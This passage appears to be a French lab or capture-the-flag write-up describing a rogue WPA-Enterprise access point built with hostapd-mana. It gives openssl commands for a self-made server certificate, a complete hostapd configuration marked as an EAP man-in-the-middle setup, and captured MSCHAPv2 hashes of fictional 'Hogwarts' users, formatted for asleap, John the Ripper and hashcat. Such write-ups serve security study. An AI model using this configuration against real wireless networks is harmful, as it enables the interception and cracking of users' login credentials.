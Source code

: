 #### 5. Signer le CSR avec notre CA

```bash
openssl x509 -req -in server.csr -CA ca.pem -CAkey ca.key -CAcreateserial \
  -out server.pem -days 500 -sha256
```

--------------------------------

On avait aussi besoin de créer une clé [Diffie–Hellman](https://en.wikipedia.org/wiki/Diffie%E2%80%93Hellman_key_exchange) :

```bash
openssl dhparam -out dh.pem 2048
```

Après pas mal d'essais, j'avais ce fichier de configuration :

```toml
# common hostapd configuration
interface=wlan1
ssid=wifi-college
hw_mode=a
channel=36
bssid=F0:9F:C2:71:22:16

# WPA configuration
auth_algs=1
wpa=2
wpa_key_mgmt=WPA-EAP
wpa_pairwise=TKIP CCMP

# EAP TLS MitM
ieee8021x=1
eap_server=1
eapol_key_index_workaround=0
eap_user_file=hostapd.eap_user

# certificate configuration for EAP-TLS/PEAP/TTLS
ca_cert=ca.pem
server_cert=server.pem
private_key=server.key
private_key_passwd=
dh_file=dh.pem

# mana specific configuration
mana_wpe=1
mana_eaptls=1
mana_eapsuccess=1
mana_credout=/tmp/hostapd.credout
```

Et j'ai pu obtenir des hashs EAP-MSCHAPV2 :

```
MANA EAP Identity Phase 1: Hogwarts\rubeus.hagrid
MANA EAP EAP-MSCHAPV2 ASLEAP user=rubeus.hagrid | asleap -C 68:10:f2:09:ed:f0:8d:df -R 6a:07:7a:f6:7c:c2:06:1c:25:96:b8:4a:ef:f0:1f:3d:ce:53:f5:c6:77:4d:fe:3e
MANA EAP EAP-MSCHAPV2 JTR | rubeus.hagrid:$NETNTLM$6810f209edf08ddf$6a077af67cc2061c2596b84aeff01f3dce53f5c6774dfe3e:::::::
MANA EAP EAP-MSCHAPV2 HASHCAT | rubeus.hagrid::::6a077af67cc2061c2596b84aeff01f3dce53f5c6774dfe3e:6810f209edf08ddf
EAP-MSCHAPV2: Derived Master Key - hexdump(len=16): b5 39 8b 02 1c a5 f4 42 69 cb 37 f4 1f b4 d9 51

MANA EAP Identity Phase 1: Hogwarts\albus.dumbledore
MANA EAP EAP-MSCHAPV2 ASLEAP user=albus.dumbledore | asleap -C 59:6b:b2:63:ee:64:61:01 -R 4c:ba:18:f1:88:85:5e:8e:5b:9f:20:b0:45:a4:f8:c9:a9:d1:f6:33:30:dd:4d:2c
```